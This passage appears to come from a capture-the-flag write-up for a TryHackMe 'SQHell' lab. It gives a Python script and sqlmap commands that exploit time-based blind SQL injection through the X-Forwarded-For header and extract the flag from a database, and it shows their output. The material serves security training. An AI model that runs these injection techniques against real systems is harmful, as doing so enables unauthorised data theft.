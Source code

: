 ```python
import requests
import time
import string

server = "sqhell.thm" # IP OR SERVERNAME IF IN HOST FILE
flag = ""
loop = 1

while chr(125) not in flag:
    for a in range(48,126):
        start = time.time()
        r = requests.get(url="http://" + server, headers={'X-Forwarded-For':f"1' AND (SELECT sleep(2) FROM flag where (ASCII(SUBSTR(flag,{loop},1))) = '{a}')-- -"})
        end = time.time()
        if end-start >= 2:
            flag += chr(a)
            loop += 1
            print("Finding Flag: ", flag, end="\r")
            break
print("Flag found: ", flag)

```

```bash
dking@dking ~/Downloads$ source /home/dking/myenv_python3_9/bin/activate
(myenv_python3_9) dking@dking ~/Downloads$ python script.py
Flag found:  THM{FLAG2:C678ABFE1C01FCA19E03901CEDAB1D15}5}
```

Just like the last script this is a simple loop, repeating the same time based check using the XFF header as we did with curl:

### Using SQLMap

{% code overflow="wrap" lineNumbers="true" %}
```bash
sqlmap  -u http://sqhell.thm --headers="X-forwarded-for:1*" --dbms mysql
# outputs
Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
(custom) HEADER parameter 'X-forwarded-for #1*' is vulnerable.
```
{% endcode %}

{% code overflow="wrap" lineNumbers="true" %}
```bash
sqlmap --dbms mysql --headers="X-forwarded-for:1*" -u http://sqhell.thm --dump
# outputs
Database: sqhell_1
Table: flag
[1 entry]
+----+---------------------------------------------+
| id | flag                                        |
+----+---------------------------------------------+
| 1  | THM{FLAG2:C678ABFE1C01FCA19E03901CEDAB1D15} |
+----+---------------------------------------------+
```
{% endcode %}
